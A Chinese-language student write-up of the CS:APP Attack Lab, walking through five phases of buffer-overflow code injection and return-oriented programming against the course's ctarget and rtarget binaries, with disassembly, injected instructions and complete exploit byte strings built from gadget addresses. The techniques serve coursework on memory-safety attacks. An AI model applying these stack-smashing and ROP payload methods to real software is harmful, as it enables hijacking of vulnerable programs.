






# 攻击

## phase_1

题目大意是要求我们在执行test函数时，当getbuf执行结束之后，我们不再返回test 而是跳转到touch1,从而达到攻击的目的。

思路：
    首先反汇编ctarget，因为这些函数的实现都在这个可执行文件中，因为从test开始，我们先看test
```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp # 开辟栈空间8个字节
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax 
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf> # 调用getbuf函数
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq

```
我们看到在第四行调用了getbuf函数，我们跳转到getbuf，看看要填多少字节才能填满这个函数的栈空间

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp # 分配40字节的栈空间
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
  4017be:	90                   	nop
  4017bf:	90                   	nop

```
我们可以看到在getbuf的汇编中，为栈空间分配了40字节的空间，所以我们只需要填满40个字节就可以了，但是我们还需跳转到touch1,所以在填满缓冲区的40字节之后，我们还得知道touch1的地址，然后跳转到touch1的汇编。

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>

```

可以看到要跳转的地址是00000000004017c0 
答案可以参考level1.txt 注意大小端，通过测试的情况如下：


## phase_2

题目要求我们在执行test函数时，当getbuf执行结束之后，我们不再返回test 而是跳转到touch2,从而达到攻击的目的。 同时提示我们需要在注入的攻击字符中，添加一些少量的code，来实现攻击的目的。

touch2的源代码如下：
```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们需要传入正确的cookie才能跳转到正确的地方，所以整体思路是
1. 修改返回地址，这个返回地址是我们的注入代码的地址，所以就是getbuf分配空间之后的栈顶
2. 然后我们要找出cookie的地址查看汇编可以知道cookie的地址是0x202ce2(%rip) 然后rip寄存器存放的是当前程序的下一条指令的地址0x401802，我们将这两个地址求和就得到cookie的地址，然后cookie的值为 (x $0x6044e4) 0x59b997fa
3. 最后编写跳转代码，其实思路就是函数调用的汇编指令，传入参数，然后将touch2的地址压入栈中，最后ret 这样当从test跳转到这里执行结束之后，ret 会跳转到touch2
   
我们的汇编写起来是这样的：

```asm
mov %0x59b997fa %rdi # 传入cookie
push $0x4017ec # 将touch2的地址压栈
ret #再弹出
```

其实可以直接call touch2的 但是不推荐使用

将汇编的16进制指令放到填充字符的最前面，之后填充00 到40字节之后我们再填充跳转地址就可以了

执行结果如下：



## phase_3

读题，发现还是类似之前的注入攻击，但是这次是让你传递一个字符串来替代cookie，并且给出了hexmatch这个判断函数

根据他们给的建议，我们需要找出cookie的ascill码转换后的字符串，然后把这个字符串存到一个“安全”的地方 转换后的字符串是这样的
35 39 62 39 39 37 66 61

我们还是延续第二题的思路，就是传值，push函数，然后ret。

但是我们这次要传入字符串的地址，所以我们要确定字符串所在的地址，在课程上的提示中有这么一段
When functions hexmatch and strncmp are called, they push data onto the stack, overwriting
portions of memory that held the buffer used by getbuf. As a result, you will need to be careful
where you place the string representation of your cookie.

这段话的意思是说，当hexmatch和strncmp函数被调用时，他们会将数据压入栈中，覆盖掉getbuf使用的缓冲区的一部分内存，所以你需要小心地放置cookie的字符串表示。

这里容易引起误会，很多人认为push 是汇编的push，然后push指令会让rsp减少，来实现压入栈的操作，所以push并不会覆盖缓冲区，那是怎么实现覆盖的呢，其实查看汇编发现hexmatch中的cbuf数组的地址就是getbuf缓冲区的地址（这个怎么做的我也不太清楚），所以往cbuf中写入数据就会覆盖掉getbuf的缓冲区。

那么既然我们无法往getbuf的缓冲区存放数据，那么就往test的栈帧中存放字符串的数据，这就是我们的思路，所以再结合第二题的做法我们就可以得到答案了

首先要覆盖test的返回地址，其次再添一层覆盖栈帧作为我们传入字符的地址

准备汇编
```asm
mov $0x5561dca8, %edi # 将字符串的地址传入edi
push $0x4018fa # 将touch3的地址压栈
ret
```

我们得到的机器指令应该是这样

```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 #前6行不变，后面是将cookie的字符串放到test的栈帧中
35 39 62 39 39 37 66 61
```

这样就可以了，执行结果如下：


至此我们完成Part1,继续旅行

## phase_4 

这次我们还是要攻击test依然跳转到touch2，但是这次比起phase_2直接栈溢出，多了如下的限制


1. 引入了栈地址随机化，无法像攻击ctarget那样取得栈地址的绝对值。
2. 栈上的指令不可执行，即使在栈注入指令，执行了也是 segmentation fault

所以我们不能把放到栈上了，但是缓冲区还是要填满才能覆盖返回值，而我们并不知道栈的地址，所以我们可以将cookie放到栈中，然后使用指令
    
```asm  
pop %rax
ret
```

注意：当我们用字符填满栈空间时，我们再往其中写入字符就会覆盖test的栈空间，我们将cookie的字符放入test的栈帧中，然后在返回处pop %rax，这样就把字符给rax寄存器了

```asm
popq %rax
ret

movq %rax %rdi
ret
```

然后去教授为我们构造的函数中寻找 我们编写的汇编对应的地址，就可以了
这个可以参考https://zhuanlan.zhihu.com/p/476396465

最后的结果如下：

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

cc 19 40 00 00 00 00 00 /* pop %rax 把栈上的cookie给rax */

fa 97 b9 59 00 00 00 00 /* 我们把cookie压到栈上*/

c5 19 40 00 00 00 00 00 /* mov %rax,%rdi */

ec 17 40 00 00 00 00 00 /* touch2的地址 */

结果：



好的final phase 了 加油！

## phase_5
重要的事情说3遍，这里我们要传的是字符串的地址，不是字符串的值,而在part2中加入了栈的保护机制，所以我们无法直接获取字符串的地址，所以我们无法像第四个lab那样将值压栈再传值，因为我们要传的是地址。为啥我要这么唠叨，因为我自己就这么做的！
```
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
cc 19 40 00 00 00 00 00 /* pop %rax */
35 39 62 39 39 37 66 61 /*这个是字符串*/
c5 19 40 00 00 00 00 00 /* mov %rax,%rdi */
fa 18 40 00 00 00 00 00
```
我天真的以为这么做是可以的，但是实际上你以为你传入的是字符串，实际上它会把你传入的值当作地址，然后你这个地址访问的时候就会出现segmentation fault

好的，看完我踩的坑，该看看正确的做法了
我们既然要传入地址，而又困于栈的保护机制，所以，我们只剩下唯一的线索就是顺着rsp寄存器来找字符串的地址,为什么这么想，因为rsp保存的就是栈顶地址，我们就顺着来就行，找到合适的偏移量来存放字符串的地址，然后再执行touch3就行了

所以第一步就是先把rsp 拿出来给一个寄存器存起来
```
mov %rsp  xxx
```

看看有没有对应的指令48 89 xx 
```
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```
真有，对应汇编为movq %rsp, %rax
中间由于gadget 限制，我们不得不多多中转几次，

```
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
```

其中rsi 保存的是偏移量，这个值是怎么计算的呢，就是我们在字符串之前所有指令所占的长度，一共0x48

这是知乎上大佬画的图，讲的非常详细，除去返回地址的指令（因为pop会使rsp+0x8），一共有9条指令需要放到栈上，所以我们要填充0x48个字节，然后再填充字符串的地址，最后再填充touch3的地址就可以了

最后的结果如下：
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```


至此结束